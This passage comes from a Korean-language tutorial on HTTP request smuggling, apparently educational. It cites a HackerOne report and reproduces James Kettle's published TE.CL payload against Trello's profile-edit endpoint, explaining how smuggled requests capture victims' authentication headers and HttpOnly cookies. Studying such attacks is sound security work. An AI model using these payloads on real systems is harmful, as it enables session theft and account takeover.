```
HTTP/1.1 200 OK

{
  "user": {
     "account_id": 934454,
     "is_newrelic_admin": true
  },
  "current_account_id": 934454
  …
}
```

참고: [https://hackerone.com/reports/498052](https://hackerone.com/reports/498052)

이 공격으로 API만 포이즈닝 할 수 있는 것이 아니다. 다양한 공격을 위해서는, 해당 취약점으로 무엇을 할 수 있는지 이해하는 것이 중요하고, 어떤 Request들을 감염 시킬 수 있는지 이해하는 것이 핵심이다. 'Confirm' 단계에서 했던 공격을 반복하면서 '피해자'의 공격을 조금식 변조하며 정상적인 공격 Request가 될 때까지 반복해보면, 특정 IP의 대상 혹은 특정 Method를 사용하는 대상들만 공격 할 수 있음을 확인할 수 있다.

그리고 마지막으로 Web-Cache를 사용하는지 확인해야한다. 이를 통해 다양한 방어 기법들을 우회할 수 있으며 해당 공격의 위험성을 배로 불릴 수 있다.

### 4. Storing the Header

만약 공격 대상에 글을 작성 혹은 수정하는 기능이 존재한다면, Explore & Exploit 단계가 매우 쉬워진다. 피해자의 Request Packet을 공격자의 글 작성/수정 페이지에 저장하는 요청을 삽입해 Web App의 Request를 저장 시켜 최종적으로 Authentication Header 및 Cookie를 탈취 할 수 있다. (HTTP-Only로 인해 막힌 Cookie 탈취가 가능해진다는 것은 매우 큰 위험이다) 

다음은 James Kettle이 발견한 Trello의 profile-edit 기능을 사용한 공격이다.

```
POST /1/cards HTTP/1.1
Host: trello.com
Transfer-Encoding:[tab]chunked
Content-Length: 4

9f
PUT /1/members/1234 HTTP/1.1
Host: trello.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400

x=x&csrf=1234&username=testzzz&bio=cake
0

GET / HTTP/1.1
Host: trello.com
```

위 공격은 TE.CL 공격이다. `Transfer-Encoding: [tab]chunked`로 인해 Back-End로 `PUT /1/members/1234 HTTP/1.1 ~~ cake\r\n0`까지 전달될 것이다. 그리고 Back-End는 Content-Length만 보기 때문에 `9f\r\n`(Size: 4)까지만 보고 `PUT /1/members/1234 HTTP/1.1 ~ cake\r\n0`은 Back-End에 남아 있을 것이다. 그리고 사용자의 패킷이 들어오면, `PUT /1/members/1234 HTTP/1.1 ~ cake\r\n0`의 Body역할을 수행하며 저장될 것이다.
